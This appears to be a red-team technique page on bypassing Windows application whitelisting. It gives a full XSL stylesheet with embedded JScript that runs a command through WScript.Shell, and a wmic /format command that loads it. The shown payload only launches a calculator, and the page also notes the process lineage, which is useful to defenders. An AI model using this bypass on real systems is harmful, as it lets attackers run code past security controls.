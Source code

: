 # Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% page-ref page="t1117-regsvr32-aka-squiblydoo.md" %}

## Execution

Define the XSL file containing the jscript payload:

{% tabs %}
{% tab title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endtab %}
{% endtabs %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-22-05-24.png)

## Observation

Calculator is spawned by svchost.exe:

![](../../.gitbook/assets/screenshot-from-2019-04-10-21-57-52.png)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}



